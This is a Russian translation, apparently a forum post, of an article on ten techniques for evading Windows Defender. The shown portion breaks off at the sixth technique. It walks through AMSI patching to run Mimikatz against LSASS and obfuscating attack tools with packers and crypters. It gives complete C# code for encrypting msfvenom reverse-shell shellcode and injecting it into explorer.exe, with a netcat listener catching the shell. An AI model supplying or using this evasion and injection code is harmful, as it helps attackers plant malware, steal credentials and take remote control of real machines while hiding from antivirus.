Перевод:FO-Sec :: Articles :: Bypassing Windows Defender
Введение
В этой статье я объясню 10 способов/техник обхода полностью обновлённой системы Windows с Windows Defender.
Отметим, что я не буду углубляться в многие концепции и в основном буду предполагать базовые знания. Кроме того, я не выбирал чрезмерно сложные техники, например, прямые системные вызовы или аппаратные точки останова, так как это излишне для антивирусов, и их лучше объяснять в отдельной статье, ориентированной на EDR.
1)Патчинг AMSI/ETW в памяти
Первый метод, который я хочу объяснить, является также и тем, который я лично использую чаще всего, так как он очень удобен и быстр в исполнении.
AMSI, или AntiMalware Scan Interface, — это независимый от производителя механизм безопасности Windows, который сканирует PowerShell, wscript, cscript, макросы Office и отправляет информацию поставщику безопасности (в нашем случае Defender), чтобы определить, является ли код вредоносным.
ETW, или Event Tracing for Windows, — это другой механизм безопасности, который регистрирует события, происходящие в пользовательском режиме и драйверах ядра. Поставщики могут анализировать эту информацию от процесса, чтобы определить, имеет ли он злонамеренные намерения.
К сожалению, Windows Defender работает с очень малым количеством информации, поступающей из сессий PowerShell. В частности, патчинг AMSI для текущего процесса позволит нам выполнять любое безфайловое вредоносное ПО, которое мы выберем, включая инструменты (Mimikatz, Rubeus и т.д.) и обратные оболочки.
Для доказательства концепции я буду использовать встроенную функцию Bypass-4MSI из evil-winrm, но очень легко создать собственный патчер AMSI/ETW в виде скрипта PowerShell или исполняемого файла, как мы увидим позже.
Таким образом, цепочка действий для дампа логинов в памяти с помощью Mimikatz из процесса LSASS работает следующим образом с этим методом: Патчинг AMSI в памяти - Proof of Concept (доказательство концепции).

Для лучшего понимания набор команд можно объяснить на более высоком уровне следующим образом:
- Попробуйте написать известный триггер "Invoke-Mimikatz" как способ проверить, активен ли Defender.
- Выполните функцию Bypass-4MSI из evil-winrm, чтобы пропатчить AMSI в текущей сессии PowerShell.
- Вызовите триггер антивируса снова, чтобы проверить, работает ли телеметрия AMSI (как мы видим, она больше не работает).
- Загрузите настоящий модуль PowerShell Invoke-Mimikatz в память с помощью Invoke-Expression.
- Выполните Mimikatz, чтобы сбросить пароли входа из LSASS.
2)Обфускация кода
Обфускация кода обычно не нужна или не стоит затраченного времени для нативно компилируемых языков, таких как C/C++, так как компилятор в любом случае применяет множество оптимизаций. Но значительная часть вредоносного ПО и инструментов написана на C# и иногда на Java. Эти языки компилируются в байткод/MSIL/CIL, который легко подвергается обратной разработке. Это означает, что вам потребуется применить обфускацию кода, чтобы избежать детектирования по сигнатурам.
Существует множество доступных инструментов для обфускации с открытым исходным кодом, но в качестве доказательства концепции в этом разделе я буду использовать инструмент для обфускации C# под названием InvisibilityCloak от h4wkst3r.
Например, используя инструмент GhostPack Certify, который часто используется для поиска уязвимых сертификатов в домене, мы можем использовать упомянутый инструмент для обхода Defender следующим образом:
На скрине Defender запущен и блокирует стандартную сборку Certify.

Обфускция Certify при помощи InvisibilityCloak
Запуск обфусцированного Certify

Мы видим, что теперь все сработало без проблем, однако возникает ошибка, потому что виртуальная машина не присоединена к домену или не является контроллером домена.
Мы можем сделать вывод, что обфускация сработала, однако стоит отметить, что для некоторых инструментов может потребоваться более глубокая обфускация, чем для других. Например, я выбрал Certify в этом случае вместо Rubeus, так как это было проще для демонстрационных целей.
3) Обфускация на этапе компиляции
Для нативно компилируемых языков, таких как C, C++, Rust и других, вы можете использовать обфускацию на этапе компиляции, чтобы скрыть реальное поведение подпрограмм и общий поток инструкций.
В зависимости от языка могут существовать различные методы. Поскольку мой основной язык для разработки вредоносного ПО — C++, я объясню два метода, которые я пробовал: обфускация с использованием LLVM и метапрограммирование на шаблонах.
Для обфускации с использованием LLVM самым крупным публичным инструментом на данный момент является Obfuscator-LLVM. Этот проект является форком LLVM, который добавляет слой безопасности через обфускацию в создаваемые бинарные файлы. В настоящее время реализованы следующие дополнительные функции:
- Замена инструкций. Обфускация ассемблерных инструкций для создания эквивалентного поведения с большей вычислительной сложностью.
- Ложный поток управления. Добавление блоков ненужных инструкций для скрытия исходного потока кода.
- Уплощение потока управления. Делает ветвления и переходы труднее предсказуемыми, чтобы скрыть предполагаемый поток инструкций.
С другой стороны, метапрограммирование на шаблонах — это техника C++, которая позволяет разработчикам создавать шаблоны, генерирующие исходный код на этапе компиляции. Это позволяет генерировать разные бинарные файлы при каждой компиляции, создавая бесконечное количество ветвей и блоков кода и т.д.
Два публичных фреймворка, которые я знаю и использовал для этой цели, следующие:
Для этого доказательства концепции я буду использовать второй инструмент, так как он, на мой взгляд, проще в использовании.
Кроме того, для доказательства концепции я буду использовать AMSI_patch от TheD1rkMtr в качестве основного бинарного файла для обфускации, так как это довольно простой проект на C++. Код обфусцированного бинарного файла можно найти здесь.
Сначала давайте посмотрим на дерево функций исходного бинарного файла в Ghidra.

Как мы можем видеть, анализ не слишком сложен. Основную функцию можно найти под третьей процедурой FUN_.
Основная функция стандартного бинарного файла

Который выглядит довольно простым для анализа и понимания его поведения (в данном случае патчинг AMSI через AMSIOpenSession).
Теперь давайте посмотрим на дерево функций обфусцированного бинарного файла.
Дерево функций обфусцированного бинарного файла

Это выглядит невероятно сложным для статического анализа, поскольку существует множество вложенных функций. И, как мы видим, это добавленные функции на основе шаблонов.
Функция-мусор обфусцированного бинарного файла

Эти функции являются простыми функциями-мусором, но они действительно полезны для скрытия реального поведения.
Теперь для финального теста давайте попробуем это на реальной системе Windows для доказательства концепции (PoC). Обратите внимание, что поскольку бинарный файл патчит AMSI для данного процесса через PID в качестве параметра, PoC будет очень похож на первый метод: патчинг AMSI для текущей сессии PowerShell, чтобы избежать сканирования памяти Defender'ом.
Доказательство концепции обфускации на этапе компиляции

И, как мы видим, это сработало: Defender не остановил бинарный файл ни статически, ни во время выполнения, что позволило нам удаленно патчить AMSI для процесса.
4) Обфускация/упаковка бинарного файла
После того как бинарный файл уже создан, у вас есть несколько вариантов:
- Обфускация ассемблерных инструкций бинарного файла.
- Упаковка бинарного файла.
- Шифрование содержимого бинарного файла с расшифровкой во время выполнения.
- Опционально, преобразование его в shellcode для последующей манипуляции и инъекции.
На высоком уровне Alcatraz работает, модифицируя ассемблер бинарного файла различными способами, такими как обфускация потока управления, добавление ненужных инструкций, дезоптимизация инструкций и сокрытие реальной точки входа до времени выполнения.
С другой стороны, Metame использует случайность для генерации различного ассемблера (хотя и с одинаковым поведением) при каждом запуске. Это лучше известно как метаморфический код, который часто используется настоящим вредоносным ПО.
Наконец, ROPfuscator работает, как следует из названия, используя Return Oriented Programming для создания ROP-гаджетов и цепочек из исходного кода, таким образом скрывая поток оригинального кода от статического анализа, а возможно, и от динамического, поскольку эвристикам будет сложнее анализировать последовательные вредоносные вызовы. Следующее изображение лучше описывает весь процесс.

Продолжая с упаковкой бинарных файлов, базовая архитектура упаковщика может быть описана следующим изображением.

В этом процессе указанный инструмент упаковки встраивает нативно скомпилированный PE-файл в другой исполняемый файл, который содержит информацию, необходимую для распаковки оригинального содержимого и его выполнения. Возможно, самый известный упаковщик, который даже не предназначен для вредоносных целей, — это пакет UPX для Golang.
Кроме того, PE-криптер работает путем шифрования содержимого исполняемого файла и создания исполняемого файла, который расшифрует оригинальный PE-файл во время выполнения. Это очень полезно против антивирусов, поскольку большинство из них полагаются на статический анализ, а не на поведение во время выполнения (как, например, EDR). Таким образом, полное сокрытие содержимого исполняемого файла до момента выполнения может быть очень эффективным, если только антивирус не создал сигнатуры против методов шифрования/расшифровки, как это было в моем случае с nimpcrypt.
Наконец, у нас также есть возможность преобразовать нативный PE-файл обратно в shellcode. Это можно сделать, например, с помощью инструмента pe_to_shellcode от hasherezade.
Теперь, когда я объяснил все возможные способы обхода антивирусов, начиная с исполняемого файла, я хотел бы упомянуть фреймворк, который объединяет все шаги в одном инструменте: inceptor от KlezVirus. Этот инструмент может быть довольно сложным, и большинство шагов не требуются для простого обхода Defender, но это может быть лучше объяснено на следующем изображении.

Исходник: GitHub - klezVirus/inceptor: Template-Driven AV/EDR Evasion Framework
В отличие от предыдущих инструментов, Inceptor позволяет разработчику создавать собственные шаблоны, которые будут модифицировать бинарный файл на каждом этапе рабочего процесса. Это означает, что даже если будет создана сигнатура для публичного шаблона, вы сможете использовать свои собственные приватные шаблоны для обхода хуков EDR, патчинга AMSI/ETW, использования аппаратных точек останова, использования прямых системных вызовов вместо DLL в памяти и т.д.
5) Инъекция зашифрованного Shellcode
Инъекция Shellcode — это хорошо известная техника, которая заключается во вставке/инъекции позиционно-независимого Shellcode в определенный процесс-жертву с целью выполнения его в памяти. Это можно осуществить различными способами. Следующее изображение хорошо суммирует общедоступные методы.

Однако в этой статье я буду обсуждать и демонстрировать следующий метод:
- Используйте Process.GetProcessByName, чтобы найти процесс explorer и получить его PID.
- Откройте процесс с помощью OpenProcess с правом доступа 0x001F0FFF.
- Выделите память в процессе explorer для нашего shellcode с помощью VirtualAllocEx.
- Запишите shellcode в процессе с помощью WriteProcessMemory.
- Наконец, создайте поток, который выполнит наш позиционно-независимый shellcode с помощью CreateRemoteThread.
Сначала нам нужно будет сгенерировать начальный shellcode. Для доказательства концепции я буду использовать простую TCP-обратную оболочку, созданную с помощью msfvenom.

После того как у нас будет shellcode, нам понадобится способ его зашифровать. Для этого я буду использовать следующий код на C#, но вы можете зашифровать его и другим способом (например, с помощью CyberChef).
[HIDE]
Код:
Encrypter.cs
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;
namespace AesEnc
{
class Program
{
static void Main(string[] args)
{
byte[] buf = new byte[] { 0xfc,0x48,0x83, etc. };
byte[] Key = new byte[]{ 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F };
byte[] IV = Convert.FromBase64String("AAECAwQFBgcICQoLDA0ODw==");
byte[] aesshell = EncryptShell(buf, Key, IV);
StringBuilder hex = new StringBuilder(aesshell.Length * 2);
int totalCount = aesshell.Length;
foreach (byte b in aesshell)
{
if ((b + 1) == totalCount)
{
hex.AppendFormat("0x{0:x2}", b);
}
else
{
hex.AppendFormat("0x{0:x2}, ", b);
}
}
Console.WriteLine(hex);
}
private static byte[] GetIV(int num)
{
var randomBytes = new byte[num];
using (var rngCsp = new RNGCryptoServiceProvider())
{
rngCsp.GetBytes(randomBytes);
}
return randomBytes;
}
private static byte[] GetKey(int size)
{
char[] caRandomChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&*()".ToCharArray();
byte[] CKey = new byte[size];
using (RNGCryptoServiceProvider crypto = new RNGCryptoServiceProvider())
{
crypto.GetBytes(CKey);
}
return CKey;
}
private static byte[] EncryptShell(byte[] CShellcode, byte[] key, byte[] iv)
{
using (var aes = Aes.Create())
{
aes.KeySize = 128;
aes.BlockSize = 128;
aes.Padding = PaddingMode.PKCS7;
aes.Mode = CipherMode.CBC;
aes.Key = key;
aes.IV = iv;
using (var encryptor = aes.CreateEncryptor(aes.Key, aes.IV))
{
return AESEncryptedShellCode(CShellcode, encryptor);
}
}
}
private static byte[] AESEncryptedShellCode(byte[] CShellcode, ICryptoTransform cryptoTransform)
{
using (var msEncShellCode = new MemoryStream())
using (var cryptoStream = new CryptoStream(msEncShellCode, cryptoTransform, CryptoStreamMode.Write))
{
cryptoStream.Write(CShellcode, 0, CShellcode.Length);
cryptoStream.FlushFinalBlock();
return msEncShellCode.ToArray();
}
}
}
}[/HIDE]
Скомпилировав и запустив приведенный выше код с начальным shellcode в переменной "buf", мы получим зашифрованные байты, которые будем использовать в нашей программе-инжекторе.
Для доказательства концепции я также выбрал C# в качестве языка для инжектора, но вы можете использовать любой другой язык, который поддерживает Win32 API (C/C++, Rust и т.д.).
Наконец, код, который будет использоваться для инжектора, выглядит следующим образом:
[HIDE]
Код:
using System;
using System.Collections.Generic;
using System.Linq;
using System.IO;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
namespace AESInject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
static void Main(string[] args)
{
byte[] Key = new byte[]{ 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F };
byte[] IV = Convert.FromBase64String("AAECAwQFBgcICQoLDA0ODw==");
byte[] buf = new byte[] { 0x2b, 0xc3, 0xb0, etc}; //your encrypted bytes here
byte[] DShell = AESDecrypt(buf, Key, IV);
StringBuilder hexCodes = new StringBuilder(DShell.Length * 2);
foreach (byte b in DShell)
{
hexCodes.AppendFormat("0x{0:x2},", b);
}
int size = DShell.Length;
Process[] expProc = Process.GetProcessesByName("explorer"); //feel free to choose other processes
int pid = expProc[0].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
WriteProcessMemory(hProcess, addr, DShell, DShell.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
}
private static byte[] AESDecrypt(byte[] CEncryptedShell, byte[] key, byte[] iv)
{
using (var aes = Aes.Create())
{
aes.KeySize = 128;
aes.BlockSize = 128;
aes.Padding = PaddingMode.PKCS7;
aes.Mode = CipherMode.CBC;
aes.Key = key;
aes.IV = iv;
using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
{
return GetDecrypt(CEncryptedShell, decryptor);
}
}
}
private static byte[] GetDecrypt(byte[] data, ICryptoTransform cryptoTransform)
{
using (var ms = new MemoryStream())
using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
{
cryptoStream.Write(data, 0, data.Length);
cryptoStream.FlushFinalBlock();
return ms.ToArray();
}
}
}
}Для этой статьи я скомпилировал программу с зависимостями для удобства передачи на EC2, но вы можете скомпилировать её в автономный бинарный файл размером около 50-60 МБ.
Наконец, мы можем настроить слушатель с помощью netcat на машине атакующего/C2 и запустить инжектор на целевой машине:

Получение обратной оболочки

6) Загрузка shellcode с помощью Donut
Проект Donut от TheWover является очень эффективным генератором позиционно-независимого shellcode из PE/DLL файлов. В зависимости от предоставленного входного файла, он работает по-разному. Для доказательства концепции я буду использовать Mimikatz, так что давайте посмотрим, как это работает на высоком уровне. Из краткого ознакомления с кодом, это будет основная процедура исполняемого файла Donut.exe:
Код:
